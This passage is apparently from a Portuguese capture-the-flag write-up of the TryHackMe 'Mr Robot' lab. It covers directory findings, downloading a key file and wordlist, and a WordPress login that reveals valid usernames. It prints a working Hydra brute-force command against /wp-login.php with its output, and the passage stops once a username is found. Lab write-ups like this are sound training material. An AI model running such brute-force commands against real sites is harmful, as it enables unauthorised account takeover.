 Analisando os diretórios enumerados, identifiquei:
- Página de login do WordPress em `/wp-login.php`
- Página contendo duas mensagens e uma string codificada em `/license`
- Página contendo dois arquivos: um dicionário de palavras e nossa primeira chave em `/robots`

```console
┌──(c3n0r4㉿kali)-[~/tryhackme/room/mrrobot]
└─$ curl -O http://10.10.150.40/key-1-of-3.txt           
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0     81      0 --:--:-- --:--:-- --:--:--    81

┌──(c3n0r4㉿kali)-[~/tryhackme/room/mrrobot]
└─$ cat key-1-of-3.txt 
THM{********************************}
```


```console
┌──(c3n0r4㉿kali)-[~/tryhackme/room/mrrobot]
└─$ curl -O http://10.10.150.40:80/fsocity.dic 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 7075k  100 7075k    0     0   666k      0  0:00:10  0:00:10 --:--:-- 1030k
```
Durante os testes iniciais, realizei uma tentativa de autenticação na interface `/wp-login.php` do WordPress utilizando o nome de usuário e a senha `admin`. A resposta do servidor retornou a mensagem `"Invalid username"`, o que indica um comportamento inconsistente no tratamento de credenciais inválidas. Esse tipo de resposta permite diferenciar usuários inexistentes de senhas incorretas, caracterizando uma vulnerabilidade de User Enumeration. Este comportamento pode ser explorado para validar nomes de usuários existentes na aplicação, facilitando ataques de força bruta direcionados.

![](usuario-invalido.webp)

Com base na resposta do `WordPress` ao validar usuários inexistentes, utilizei o `Burp Suite` para interceptar e analisar a requisição de login enviada para `/wp-login.php`. A partir disso, identifiquei o formato da requisição HTTP necessária e, com essas informações, preparei um brute force direcionado utilizando a ferramenta `Hydra` em conjunto com o dicionário `fsocity.dic`

![](burp.webp)

Em seguida, executei um ataque, visando descobrir um nome de usuário válido:

```console
┌──(c3n0r4㉿kali)-[~/tryhackme/room/mrrobot]
└─$ hydra -L fsocity.dic -p test 10.10.150.40 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-10 15:12:14
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:858235/p:1), ~28608 tries per task
[DATA] attacking http-post-form://10.10.150.40:80/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.150.40   login: ******   password: test
[STATUS] 120.00 tries/min, 120 tries in 00:01h, 858115 to do in 119:11h, 30 active
[STATUS] 100.00 tries/min, 300 tries in 00:03h, 857935 to do in 142:60h, 30 active
[STATUS] 98.57 tries/min, 690 tries in 00:07h, 857545 to do in 144:60h, 30 active
[STATUS] 96.00 tries/min, 1440 tries in 00:15h, 856795 to do in 148:45h, 30 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```
Com o nome de usuário identificado , realizei uma nova tentativa de login no WordPress utilizando o usuário válido  e senha `admin`.
